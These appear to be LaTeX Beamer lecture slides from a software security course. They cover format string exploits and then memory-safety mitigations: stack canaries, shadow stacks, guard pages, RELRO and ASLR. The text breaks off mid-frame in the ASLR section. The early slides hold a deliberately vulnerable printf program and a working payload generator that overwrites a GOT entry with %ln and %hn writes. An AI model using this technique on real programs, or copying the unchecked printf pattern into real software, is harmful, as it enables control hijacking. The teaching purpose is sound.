\begin{frame}
    \titlepage
\end{frame}

\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    frameOne/.style={fill=blue!15},
    frameTwo/.style={fill=red!15},
    markLine/.style={blue!50!black},
    markLineB/.style={red!90!black},
    hiLine/.style={red!90!black},
}

{
\setbeamercolor{background canvas}{bg=blue!40!black,fg=blue!10!white}
\setbeamercolor{normal text}{bg=blue!40!black,fg=blue!10!white}
\setbeamercolor{itemize/enumerate body}{fg=white}
\setbeamercolor{itemize/enumerate subbody}{fg=white}
\setbeamercolor{titlelike}{bg=blue!40!black,fg=blue!10!white}
\begin{frame}<1|handout:1>[noframenumbering]{Changelog}
    \begin{itemize}
        \item Corrections made in this version not in first posting:
        \begin{itemize}
        \item 1 April 2017: slide 13: a few more \%c's would be needed to skip format string part
        \end{itemize}
    \end{itemize}
\end{frame}
}


\begin{frame}{OVER questions?}
\end{frame}

\begin{frame}{last time}
    \begin{itemize}
        \item memory management problems
        \begin{itemize}
            \item two objects end up at same memory location
        \end{itemize}
        \item integer overflows
        \begin{itemize}
            \item buffer overflow despite length checking
        \end{itemize}
        \item started format strings exploits
        \begin{itemize}
            \item attacker tells printf to read/write things
        \end{itemize}
    \end{itemize}
\end{frame}

\section{Format String Exploits}

\begin{frame}[fragile,label=formatStringIntro]{format string exploits}
\lstset{language=C}
\begin{lstlisting}
printf("The command you entered (");
printf(command);
printf(") was not recognized.\n");
\end{lstlisting}
    \begin{itemize}
        \item<2> what if \texttt{command} is {\tt \%s}?
    \end{itemize}
\end{frame}

% FIXME: demo based on this looking at registers in GDB

\begin{frame}[fragile,label=viewingTheStack]{viewing the stack}
\lstset{
    language={},
    style=smaller,
    moredelim={**[is][\color{blue!70!black}]{~in~}{~end~}},
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3|handout:0>]{~3~}{~end~}},
    moredelim={**[is][\btHL<4|handout:0>]{~4~}{~end~}},
    moredelim={**[is][\btHL<5|handout:0>]{~5~}{~end~}},
}
\vspace{-.25cm}
\begin{lstlisting}
$ ~in~cat test-format.c~end~
#include <stdio.h>

int main(void) {
    char buffer[100];
    while(fgets(buffer, sizeof buffer, stdin)) {
        printf(buffer);
    }
}
$ ~in~./test-format.exe~end~
~in~%016lx %016lx %016lx %016lx %016lx %016lx %016lx %016lx~end~
~3~00007fb54d0c6790~end~ ~4~786c363130252078~end~ ~4~0000000000ac6048~end~ ~4~3631302520786c36~end~
~4~3631302500000000~end~ ~5~6c3631302520786c~end~ 786c363130252078 ~2~20786c36313025~end~20
\end{lstlisting}
\begin{tikzpicture}[overlay,remember picture]
    \tikzset{every node/.style={draw,thick,fill=white}}
    \begin{visibleenv}<2>
        \node at (current page.center) {
            {\tt 25 30 31 36 6c 78 20} is ASCII for {\tt \%016lx\textvisiblespace}
        };
    \end{visibleenv}
    \begin{visibleenv}<3>
        \node at (current page.center) {
            second argument to {\tt printf}: \%rsi
        };
    \end{visibleenv}
    \begin{visibleenv}<4>
        \node at (current page.center) {
            third through fifth argument to {\tt printf}: \%rdx, \%rcx, \%r8, \%r9
        };
    \end{visibleenv}
    \begin{visibleenv}<4>
        \node at (current page.center) {
            third through fifth argument to {\tt printf}: \%rdx, \%rcx, \%r8, \%r9
        };
    \end{visibleenv}
    \begin{visibleenv}<5>
        \node at (current page.center) {
            16 bytes of stack after return address
        };
    \end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}{viewing the stack --- not so bad, right?}
    \begin{itemize}
    \item can read stack canaries!
    \item but actually \textbf{much} worse
    \item can write values!
    \end{itemize}
\end{frame}

\begin{frame}{printf manpage}
    \begin{itemize}
        \item For {\tt \%n}:
        \begin{itemize}
            \item The  number  of  characters  written so far is \myemph{stored into the integer pointed to by the
                corresponding argument}.  That argument shall be an {\tt int *}, or variant whose size  matches
              the  (optionally)  supplied  integer  length  modifier. 
        \end{itemize}
    \item<2> {\tt \%hn} --- expect {\tt short \*} instead of {\tt int *}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=formatSetup]{format string exploit: setup}
\lstset{
    language=C,
    style=small,
}
\begin{lstlisting}
#include <stdlib.h>
#include <stdio.h>

int exploited() {
    printf("Got here!\n");
    exit(0);
}

int main(void) {
    char buffer[100];
    while (fgets(buffer, sizeof buffer, stdin)) {
        printf(buffer);
    }
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=formatGOT]{format string overwrite: GOT}
\lstset{
    language={},
    style=smaller
}
\begin{lstlisting}
0000000000400580 <fgets@plt>:
  400580:       ff 25 9a 0a 20 00       jmpq   *0x200a9a(%rip)
        # 601038 <_GLOBAL_OFFSET_TABLE_+0x30>
`\textit{\ldots}`

0000000000400706 <exploited>:
...
\end{lstlisting}
    \begin{itemize}
        \item goal: replace \texttt{0x601030} (pointer to \texttt{fgets}) \\
              with \texttt{0x400726} (pointer to \texttt{exploited})
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=formatExample]{format string overwrite: setup}
\lstset{
    language=C,
    style=smaller,
}
\begin{lstlisting}
    /* advance through 5 registers, then
     * 5 * 8 = 40 bytes down stack, outputting
     * 4916157 + 9 characters before using 
     * %ln to store a long.
     */
    fputs("%c%c%c%c%c%c%c%c%c%.4196157u%ln", stdout);
    /* include 5 bytes of padding to make current location
     * in buffer match where on the stack printf will be reading.
     */
    fputs("?????", stdout);
    void *ptr = (void*) 0x601038;
    /* write pointer value, which will include \0s */
    fwrite(&ptr, 1, sizeof(ptr), stdout);
    fputs("\n", stdout);
\end{lstlisting}
\end{frame}

\begin{frame}{demo}
\end{frame}

\begin{frame}{demo}
    \begin{itemize}
        \item but millions of characters of junk output?
        \item can do better --- write value in multiple pieces
            \begin{itemize}
            \item use multiple \%n
            \end{itemize}
    \end{itemize}
\end{frame}
    
\tikzset{
    mylabel/.style={draw,red,ultra thick,inner sep=0.5mm,label={[red!70!black,fill=white]#1}}
}

\begin{frame}[fragile,label=exploitPattern]{format string exploit pattern (x86-64)}
    \begin{itemize}
        \item goal: write big 8-byte number at \texttt{0x1234567890ABCDEF}:
            \begin{itemize}
            \item write {\tt 1000} (short) to address {\tt 0x1234567890ABCDEF}
            \item write {\tt 2000} (short) to address {\tt 0x1234567890ABCDF1}
            \end{itemize}
        \item buffer starts 16 bytes above printf return address
    \end{itemize}
\begin{tikzpicture}
    \begin{scope}
    \tikzset{every node/.style={font=\tt\small,inner sep=0.1mm}}
    \node (skipRegs) {\%c\%c\%c\%c\%c};
    \node[right=0cm of skipRegs](skipStack) {\%c\%c\%c\%c\%c\%c};
    \node[right=0cm of skipStack] (chooseNumber) {\%.991u};
    \node[right=0cm of chooseNumber] (writeValue) {\%hn};
    \node[right=0cm of writeValue] (chooseNumber2) {\%.1000u};
    \node[right=0cm of chooseNumber2] (writeValue2) {\%hn};
    \node[right=0cm of writeValue2] (dots) {\ldots};

    \node[below=1cm of writeValue](pointer) {\verb|\x12\x34\x56\x78\x90\xAB\xCD\xF1|};
    \node[left=0cm of pointer] (dots2) {\ldots};
    \node[below=0cm of pointer](pointer2) {\verb|\x12\x34\x56\x78\x90\xAB\xCD\xEF|};
    \end{scope}

    \begin{visibleenv}<2>
        \node[fit=(skipRegs),mylabel={skip over registers}] {};
    \end{visibleenv}
    \begin{visibleenv}<3>
        \node[fit=(skipStack) (chooseNumber),mylabel={{skip to near end of format string buffer}}] {};
    \end{visibleenv}
    \begin{visibleenv}<4>
        \node[fit={(chooseNumber)},mylabel={9 + 991 chars is 1000}] {};
    \end{visibleenv}
    \begin{visibleenv}<5>
        \node[fit={(writeValue)},mylabel={write to first pointer}] {};
    \end{visibleenv}
    \begin{visibleenv}<6>
        \node[fit={(chooseNumber2)},mylabel={1000 + 1000 = 2000}] {};
    \end{visibleenv}
    \begin{visibleenv}<7>
        \node[fit={(writeValue2)},mylabel={write to second pointer}] {};
    \end{visibleenv}
    % FIXME: annotate these
\end{tikzpicture}
\end{frame}

\begin{frame}{format string assignment}
    \begin{itemize}
        \item released Friday
        \item one week
        \item good global variable to target
            \begin{itemize}
                \item to keep it simple/consistently working
                \item more realistic: target GOT entry and use return oriented programming (later)
            \end{itemize}
    \end{itemize}
\end{frame}

\section{Control Hijacking Summary}


\begin{frame}{control hijacking generally}
    \begin{itemize}
    \item usually: need to know/guess program addresses
    \item usually: need to insert executable code
    \item usually: need to overwrite code addresses
    \vspace{.5cm}
    \item next topic: countermeasures against these
    \item later topic: defeating those
    \item later later topic: secure programming languages
    \end{itemize}
\end{frame}

\begin{frame}{control hijacking flexibility}
    \begin{itemize}
        \item lots of \myemph{generic} pointers \myemph{to code}
        \begin{itemize}
            \item vtables, GOT entries, function pointers, return addresses
            \item pretty much any large program
        \end{itemize}
    \item \myemph{data pointer overwrites} become code pointer overwrites
        \begin{itemize}
            \item overwrite data pointer to point to code pointer
            \item data pointers are everywhere!
        \end{itemize}
    \item type confusion from use-after-free is pointer overwrite
        \begin{itemize}
            \item bounds-checking won't solve all problems
        \end{itemize}
    \end{itemize}
\end{frame}

\section{Mitigations}

\begin{frame}{first mitigation: stack canaries}
    \begin{itemize}
    \item saw: stack canaries
    \item tries to stop:
        \begin{itemize}
        \item \myemph{overwriting code addresses} \\
             (as long it's return addresses)
        \end{itemize}
    \item by assuming:
        \begin{itemize}
        \item compile-in protection
        \item attacker can't read off the stack
        \item attacker can't ``skip'' parts of the stack
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{second mitigation: address space randomization}
    \begin{itemize}
    \item problem for the stack smashing assignment
    \item tries to stop:
        \begin{itemize}
        \item \myemph{know/guess programming addresses} \\
        \end{itemize}
    \item by assuming:
        \begin{itemize}
        \item program doesn't ``leak'' addresses
        \item relevant addresses can be changed (not hard-coded in progrma)
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{next topic}
    \begin{itemize}
    \item comparing mitigations
        \begin{itemize}
        \item what do they assume the attacker can do?
        \item effect on performance?
        \item recompilation? rewriting code?
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{ideas for mitigations}
\end{frame}

\section{Factors for Mitigations}

\begin{frame}{exploit mitigations}
    \begin{itemize}
    \item usually \myemph{attack exploit}, not vulernablity
    \item e.g. buffer overflow still happens --- but not ``bad''
    \end{itemize}
\end{frame}

\section{Stack Canary Review}

\begin{frame}[fragile,label=returnToStackCanary]{stack canary}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    xscale=1.3,
}
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\
     \only<1>{\fontsize{10}{11}\selectfont\tt\color{black}37 fd 40 00  00 00 00 00 (0x40fd37)}
     \only<2>{\fontsize{10}{11}\selectfont\tt\bfseries\color{red}70 fd ff ff  ff ff 00 00 (0x7fff ffff fd70)}};
\draw[onStack,fill=black!20] (0, -1.25) rectangle (10, -1.75) node[midway,align=center,font=\small] {canary: \only<1>{\tt b1 ab bd e8 31 15 df 31}\only<2>{\color{red}{\tt ?? ?? ?? ?? ?? ?? ??}}};
\draw[onStack,fill=black!20] (0, -1.75) rectangle (10, -2.25) node[midway,align=center,font=\small] {unused space (12 bytes)};
\draw[onStack,fill=blue!20] (0, -2.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\begin{visibleenv}<2>
\draw[-Latex,red,ultra thick] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |- (0.25, -5);
\node[anchor=south west,red] at (0.25, -4.75) {
    machine code for the attacker to run
};
\end{visibleenv}

\end{tikzpicture}
\end{frame}

\begin{frame}{stack canaries}
    \begin{itemize}
    \item detects (like canary in mine) overwriting of return address
    \item \ldots assuming attacker can't skip bytes when overwriting
    \end{itemize}
\end{frame}

\section{Shadow Stacks}

\begin{frame}{alternative: shadow stacks}
    \begin{tikzpicture}
    \tikzset{
        mainSt/.style={fill=blue!20},
        otherSt/.style={fill=yellow!20},
        every node/.style={font=\small,align=center},
    }
    \draw[stackBox,mainSt] (0, 0) rectangle (5, -6);
    \node[anchor=south] at (2.5, 0) { main stack @ \\ \texttt{0x7 0000 0000}};
    \begin{scope}[yshift=-.25cm]
    \draw[onStack] (0, 0) rectangle (5, -1.5) node[midway] {local variables for \texttt{foo}};
    \draw[onStack] (0, -1.5) rectangle (5, -2) node[midway] {arguments for \texttt{bar}};
    \draw[onStack] (0, -2) rectangle (5, -3.5) node[midway] {local variables for \texttt{bar}};
    \draw[onStack] (0, -3.5) rectangle (5, -4.0) node[midway] {arguments for \texttt{baz}};
    \draw[red,very thick,Latex-] (5.25, -4.0) -- ++(.5, 0) node[right] {stack pointer};
    \end{scope}
    \node[anchor=south] at (9, 0) { `shadow' stack @ \\ \texttt{0x8 0000 0000}};
    \draw[stackBox,otherSt] (6.5, 0) rectangle (11.5, -3);
    \begin{scope}[yshift=-.25cm,xshift=6.5cm]
    \draw[onStack] (0, 0) rectangle (5, -0.5) node[midway] {return address for \texttt{foo}};
    \draw[onStack] (0, -0.5) rectangle (5, -1) node[midway] {return address for \texttt{bar}};
    \draw[onStack] (0, -1) rectangle (5, -1.5) node[midway] {return address for \texttt{baz}};
    \draw[red,very thick,Latex-] (5.25, -1.5) -- ++(.5, 0) node[right] {shadow \\stack pointer};
    \end{scope}
    \end{tikzpicture} 
\end{frame}

\begin{frame}{implementing shadow stacks}
    \begin{itemize}
    \item bigger changes to compiler than canaries
    \item more overhead to call/return from function
    \item \myemph{changes calling convention}
    \end{itemize}
    % FIXME: is it by swapping pointers? example assembly?
\end{frame}

\section{Remark: Two mechanisms}

% FIXME: pictures?
\begin{frame}{protection mechanisms}
    \begin{itemize}
    \item compiler-added checks
        \begin{itemize}
        \item add checks for before risky operation
        \item idea: exploit turns into deliberate abort
        \end{itemize}
    \item \myemph{hardware/OS protections}
        \begin{itemize}
        \item control memory address/permissions
        \item ``free'' --- already checked on every memory access
        \item idea: exploit turns into \myemph{segfault}
        \end{itemize}
    \end{itemize}
\end{frame}

\section{Memory Protection}

\begin{frame}[fragile,label=vm]{recall(?): virtual memory}
\begin{itemize}
\item illuision of \myemph{dedicated memory}
\end{itemize}
\begin{tikzpicture}
\tikzset{
    every node/.style={font=\small},
}
\node[align=center] (progAAddr) {Program A \\ addresses};
\node[below=1cm of progAAddr,align=center] (progBAddr) {Program B \\ addresses};
\node[draw, right=1cm of progAAddr,align=center] (translationA) { mapping \\ (set by OS) };
\node[draw, right=1cm of progBAddr,align=center] (translationB) { mapping \\ (set by OS) };
\node[draw,rectangle split, rectangle split parts=6, anchor=north west,label={north:real memory}] (mem) at ([xshift=1cm]translationA.north east) {
    \nodepart{one}
    Program A code 
    \nodepart{two}
    Program B code
    \nodepart{three}
    Program A data
    \nodepart{four}
    Program B data
    \nodepart{five}
    OS data
    \nodepart{six}
    \ldots
};
\draw[-Latex,green,thick] (progAAddr) -- (translationA) (translationA.east) -- (mem.one west);
\draw[-Latex,green,thick] (translationA.east) -- (mem.three west);
\draw[-Latex,blue,thick] (progBAddr) -- (translationB) (translationB.east) -- (mem.two west);
\draw[-Latex,blue,thick] (translationB.east) -- (mem.four west);
\node[thick,red,draw,anchor=north west] (error) at ([yshift=-.5cm]mem.south west) {trigger error};
\draw[-Latex,green,thick] (translationA.east) -- (error.west);
\draw[-Latex,blue,thick] (translationB.east) -- (error.west);
\draw[-Latex,green,ultra thick,dotted] (translationA.east) -- (mem.five west);
\draw[-Latex,blue,ultra thick,dotted] (translationB.east) -- (mem.five west);
\draw[-Latex,ultra thick,dotted] ([xshift=-3cm,yshift=-.5cm]translationB.south) -- ([xshift=-2cm,yshift=-.5cm]translationB.south)
    node[right] {= kernel-mode only};
\end{tikzpicture}
\end{frame}

\subsection{Page-Level Protection}

% FIXME: animate hilighting parts
\begin{frame}<1>[label=mappingList]{the mapping (set by OS)}
\begin{tikzpicture}
\tikzset{
    dot/.style={draw=none}
}
\matrix[tight matrix,nodes={minimum height=.525cm,text width=3cm,font=\small\tt},
    row 1/.style={nodes={font=\bfseries\small\normalfont}},
    column 1/.style={nodes={draw=none,text width=6cm}},
    column 2/.style={nodes={text width=1cm}},
    column 3/.style={nodes={text width=1cm}},
    column 4/.style={nodes={alt=<2>{opacity=1.0,red}{opacity=0.0},text width=1cm}},
] {
program address range \& read? \& write? \& exec? \& real address\\
0x0000 --- 0x0FFF \& no \& no \& no \& --- \\
0x1000 --- 0x1FFF \& no \& no \& no \& --- \\
|[dot]| \ldots \\
0x40 0000 --- 0x40 0FFF \& yes \& no \& yes \& 0x... \\
0x40 1000 --- 0x40 1FFF \& yes \& no \& yes \& 0x... \\
0x40 2000 --- 0x40 2FFF \& yes \& no \& yes \& 0x... \\
|[dot]| \ldots \\
0x60 0000 --- 0x60 0FFF \& yes \& yes \& no\& 0x... \\
0x60 1000 --- 0x60 1FFF \& yes \& yes \& no\& 0x... \\
|[dot]| \ldots \\
|[font=\scriptsize]| 0x7FFF FF00 0000 --- 0x7FFF FF00 0FFF \& yes \& yes \& no\& 0x... \\
|[font=\scriptsize]| 0x7FFF FF00 1000 --- 0x7FFF FF00 1FFF \& yes \& yes \& no\& 0x... \\
|[dot]| \ldots \\
};
\end{tikzpicture}
\end{frame}

\begin{frame}{Virtual Memory}
    \begin{itemize}
    \item modern \myemph{hardware-supported} memory protection mechanism
    \item via \myemph{table}: OS decides \myemph{what memory program sees}
        \begin{itemize}
        \item whether it's read-only or not
        \end{itemize}
    \item granularity of \myemph{pages} --- typically 4KB
    \vspace{.5cm}
    \item not in table --- segfault (OS gets control)
    \end{itemize}
\end{frame}

\subsection{Can we make it all segfaults?}

\begin{frame}[fragile,label=stackGuard]{stack canary alternative}
\begin{tikzpicture}
\draw[stackBox] (0, 0) rectangle (6, -6);
\draw[thick,-Latex] (-.25,-5) -- (-.25, -1) node [midway, above, sloped] {increasing addresses};
\node[at={(4, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(4, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (6, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\
     {\fontsize{10}{11}\selectfont\tt\color{black}0x40fd37}
     };
    \draw[onStack,pattern=north west lines,pattern color=red] (0, -1.25) rectangle (6, -3.25) node[midway,align=center,font=\small,fill=white] {``guard page'' \\ minimum 4KB};
\draw[onStack,fill=blue!20] (0, -3.25) rectangle (6, -4.25) node[midway,align=center,font=\small] {buffer};
\begin{visibleenv}<2->
\draw[black,Latex-] (6.1, -1.25) -- ++(.5cm, 0cm) node[right,font=\small\tt] {0x7FFFF 2000};
\draw[black,Latex-] (6.1, -3.25) -- ++(.5cm, 0cm) node[right,font=\small\tt] {0x7FFFF 1000};

\matrix[tight matrix,overlay,
    column 1/.style={nodes={text width=2.25cm,minimum height=1cm,font=\fontsize{9}{10}\selectfont\tt}},
    column 2/.style={nodes={minimum height=1cm}},
    column 3/.style={nodes={minimum height=1cm}},
    ] at (12.4, -2) {
        address \& read \& write \\
    0x7FFFF2000- 0x7FFFF2FFF \& yes \& yes \\
    0x7FFFF1000- 0x7FFFF1FFF \& no \& no \\
    0x7FFFF0000- 0x7FFFF0FFF \& yes \& yes \\
};
\end{visibleenv};

\end{tikzpicture}
\end{frame}

\begin{frame}{guard pages}
    \begin{itemize}
    \item deliberate holes
    \item accessing --- segfualt
    \item call to OS to allocate (not very fast)
    \item likely to `waste' memory
        \begin{itemize}
        \item guard around object? minimum 4KB object
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{malloc/new guard pages}
\begin{tikzpicture}
    \draw[thick,-Latex] (-0.25,-5) -- (-0.25, -1) node [midway, above, sloped] {increasing addresses};
    \node[anchor=south] at (3, 0) {the heap};
    \draw[stackBox] (0, 0) rectangle (6, -6);
    \draw[onStack,fill=blue!20] (0, -2) rectangle (6, -3.5)
        node[midway,align=center] {\texttt{malloc(6000)} \\ (or \texttt{new char[6000]}) };
    \draw[onStack,pattern=north west lines,pattern color=red] (0, -1) rectangle (6, -2)
        node[midway,fill=white] {guard page};
    \draw[onStack,pattern=north west lines,pattern color=red] (0, -4) rectangle (6, -5)
        node[midway,fill=white] {guard page};
    \draw[onStack,fill=black!20] (0, -3.5) rectangle (6, -4)
        node[midway] {unused space};
\end{tikzpicture}
\end{frame}

\begin{frame}{guard pages for malloc/new}
    \begin{itemize}
    \item can implement malloc/new by placing guard pages around allocations
        \begin{itemize}
        \item commonly done by real malloc/new's for \myemph{large allocations}
        \end{itemize}
    \item problem: minimum actual allocation 4KB
    \item problem: substantially slower
    \item example: ``Electric Fence'' allocator for Linux (early 1990s)
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=stackGuardB]{stack canary alternative 2}
\begin{tikzpicture}
\draw[stackBox] (0, 0) rectangle (6, -6);
\draw[thick,-Latex] (-.25,-5) -- (-.25, -1) node [midway, above, sloped] {increasing addresses};
\node[at={(4, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(4, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (6, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\
     {\fontsize{10}{11}\selectfont\tt\color{black}0x40fd37}
     };
\draw[onStack,pattern=north west lines,pattern color=black!50] (0, -1.25) rectangle (6, -2.25) node[midway,align=center,font=\small,fill=white] {unused space};
\draw[onStack,fill=blue!20] (0, -2.25) rectangle (6, -4.25) node[midway,align=center,font=\small] {buffer};
\begin{visibleenv}<2->
\draw[black,Latex-] (6.1, -.25) -- ++(.5cm, 0cm) node[right,font=\small\tt] {0x7FFFF 2000};
\draw[black,Latex-] (6.1, -2.25) -- ++(.5cm, 0cm) node[right,font=\small\tt] {0x7FFFF 1000};

\matrix[tight matrix,
    column 1/.style={nodes={text width=2.25cm,minimum height=1cm,font=\fontsize{9}{10}\selectfont\tt}},
    column 2/.style={nodes={minimum height=1cm}},
    column 3/.style={nodes={minimum height=1cm}},
    ] at (12.3, -1) {
        address \& read \& write\\
    0x7FFFF2000- 0x7FFFF2FFF \& yes \& yes \\
    0x7FFFF1000- 0x7FFFF1FFF \& yes \& \myemph<2>{no} \\
    0x7FFFF0000- 0x7FFFF0FFF \& yes \& yes \\
};
\end{visibleenv};

\end{tikzpicture}
\end{frame}

\begin{frame}{read-only memory}
    \begin{itemize}
        \item does not help (unless a lot of space is wasted) with:
            \begin{itemize}
                \item return addresses
                \item VTable pointers
                \item function pointers in \texttt{struct}s
            \end{itemize}
        \item does help:
            \begin{itemize}
                \item global offset table
            \end{itemize}
        \item 
    \end{itemize}
\end{frame}

\begin{frame}{RELRO}
    \begin{itemize}
        \item \textbf{REL}ocation \textbf{R}ead-\textbf{O}nly
        \item Linux option: make GOT read-only after written
            \begin{itemize}
            \item requires disable ``lazy'' linking
            \item (could do without disabling --- but much slower startup)
            \end{itemize}
        \item my laptop: about 14\% of programs have this enabled
    \end{itemize}
\end{frame}

\section{ASLR}

\begin{frame}{program memory (x86-64 Linux; no-ASLR)}
\begin{tikzpicture}
\tikzset{
    mylabel/.style={font=\ttfamily,append after command={([xshift=.1cm]\tikzlastnode.west) edge[ultra thick] ++(-.2cm,0cm)}},
    mybox/.style={draw,rectangle,minimum width=7cm,fill=white},
    myhigh/.style={draw,rectangle,line width=1mm, draw=blue!80!black,opacity=.3},
}
\node[mybox,minimum height=.5cm,inner ysep=0mm,pattern=north west lines,pattern color=black!50!white] (kernel) {Used by OS};
\begin{pgfonlayer}{bg}
\node[right=1mm of kernel.north east,mylabel] (topLabel) {0xFFFF FFFF FFFF FFFF};
\node[right=1mm of kernel.south east,mylabel] {0xFFFF 8000 0000 0000};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=.45cm of kernel] (stack) {Stack};
\begin{pgfonlayer}{bg}
\node[right=1mm of stack.north east,mylabel] {0x0000 7FFF FFFF FFFF};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.5cm of stack] (heapB) {Dynamic/Libraries (mmap)};
\begin{pgfonlayer}{bg}
\node[right=1mm of heapB.south east,mylabel] (heapBLabel) {0x0000 2aaa aaaa b000};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.5cm of heapB] (heap) {Heap (brk/sbrk)};
\node[mybox, minimum height=.5cm, below=0mm of heap] (data) {Writable data};
\begin{pgfonlayer}{bg}
\node[right=1mm of data.south east,mylabel] (bottomLabel) {0x0000 0000 0060 0000*};
\node[below=0mm of bottomLabel,font=\small,inner sep=0mm] {(constants + 2MB alignment)};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.6cm of data] (sdata) {Code + Constants};
\begin{pgfonlayer}{bg}
\node[right=1mm of sdata.south east,mylabel] (bottomLabel) {0x0000 0000 0040 0000};
\end{pgfonlayer}
\coordinate (memBottom) at ($(sdata.south east) + (0mm, -2mm)$);
\begin{pgfonlayer}{bg}
\draw[pattern=north west lines, pattern color=black!40!white] (kernel.north west) rectangle (memBottom);
\end{pgfonlayer}
\end{tikzpicture}
\end{frame}

\begin{frame}{exploits and fixed addresses}
    \begin{itemize}
    \item address of shellcode 
        \begin{itemize}
        \item stack 
        \item global variable
        \item heap
        \end{itemize}
    \item address of GOT
    \end{itemize}
\end{frame}

\begin{frame}{discovering fixed addresses}
    \begin{itemize}
    \item get copy of executable + debugger/etc.
        \begin{itemize}
        \item hope it's \myemph{the same each time}
        \end{itemize}
    \item information leak
        \begin{itemize}
        \item convince program to output target address (e.g. stack address)
        \end{itemize}
    \item \myemph{guess and check}
        \begin{itemize}
        \item know stack start/heap start --- only so many possibilities
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{address space layout randomization (ASLR)}
    \begin{itemize}
    \item assume: addresses don't leak
    \item choose \myemph{random} addresses each time
    \item \myemph{enough possibilities} that attacker won't ``get lucky''
    \item should prevent exploits --- can't write GOT/shellcode location
    \end{itemize}
\end{frame}

\subsection{How much entropy?}

\begin{frame}{Linux stack randomization (x86-64)}
\begin{itemize}
    \item 1. choose random number between \texttt{0} and \tikzmark{range}\myemph<2>{\texttt{0x3F FFFF}}
    \item 2. stack starts at \texttt{0x7FFF FFFF FFFF} - \textit{random number} $\times$ \texttt{0x1000}
        \begin{itemize}
        \item randomization disabled? \textit{random number} $= 0$
        \end{itemize}
\end{itemize}
\begin{tikzpicture}[overlay,remember picture]
\node[mycallout=range] at ([yshift=-1cm]current page.center) {
    16 GB range!
};
\end{tikzpicture}
\end{frame}

\begin{frame}<1>[fragile,label=aslr64]{program memory (x86-64 Linux; ASLR)}
\begin{tikzpicture}[remember picture]
\tikzset{
    mylabel/.style={font=\ttfamily,align=center,append after command={([xshift=.1cm]\tikzlastnode.west) edge[ultra thick] ++(-.2cm,0cm)}},
    mybox/.style={draw,rectangle,minimum width=7cm,fill=white},
    myhigh/.style={draw,rectangle,line width=1mm, draw=blue!80!black,opacity=.3},
}
\node[mybox,minimum height=.5cm,inner ysep=0mm,pattern=north west lines,pattern color=black!50!white] (kernel) {Used by OS};
\begin{pgfonlayer}{bg}
    \node[right=1mm of kernel.north east,mylabel] (topLabel) {0xFFFF FFFF FFFF FFFF};
    \node[right=1mm of kernel.south east,mylabel] {0xFFFF 8000 0000 0000};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=.45cm of kernel] (stack) {Stack};
\begin{pgfonlayer}{bg}
    \node[right=1mm of stack.north east,mylabel] {\myemph<1>{$\pm$ 0x004 0000 0000}};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.5cm of stack] (heapB) {Dynamic/Libraries (mmap)};
\begin{pgfonlayer}{bg}
    \node[right=1mm of heapB.north east,mylabel] (heapBLabel) {\myemph<1>{$\pm$ 0x100 0000 0000}};
    \node[below=0mm of heapBLabel,font=\small,inner sep=0mm] {(filled from top with ASLR)};
\end{pgfonlayer}
%\begin{pgfonlayer}{bg}
%    \node[right=1mm of heapB.south east,mylabel] (heapBLabel) {0x0000 2baa aaaa b000 \\ $\pm$ 0x100 0000 0000\*};
%\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.5cm of heapB] (heap) {Heap (brk/sbrk)};
\begin{pgfonlayer}{bg}
\node[right=1mm of heap.south east,mylabel] (heapBLabel) {\myemph<1>{$\pm$ 0x200 0000}};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.2mm of heap] (data) {Writable data};
\begin{pgfonlayer}{bg}
\node[right=1mm of data.south east,mylabel] (bottomLabel) {\myemph<2-3>{0x0000 0000 0060 0000}*};
\node[below=0mm of bottomLabel,font=\small,inner sep=0mm] {(constants + 2MB alignment)};
\end{pgfonlayer}
\node[mybox, minimum height=.5cm, below=0.6cm of data] (sdata) {Code + Constants};
\begin{pgfonlayer}{bg}
\node[right=1mm of sdata.south east,mylabel] (sbottomLabel) {\myemph<2-3>{0x0000 0000 0040 0000}};
\end{pgfonlayer}
\coordinate (memBottom) at ($(sdata.south east) + (0mm, -2mm)$);
\begin{pgfonlayer}{bg}
\draw[pattern=north west lines, pattern color=black!40!white] (kernel.north west) rectangle (memBottom);
\end{pgfonlayer}

\begin{visibleenv}<3>
    \begin{scope}[overlay]
    \node[draw=red,ultra thick,fill=white,anchor=center,
          inner sep=.5cm,font=\Large] at (current page.center) {
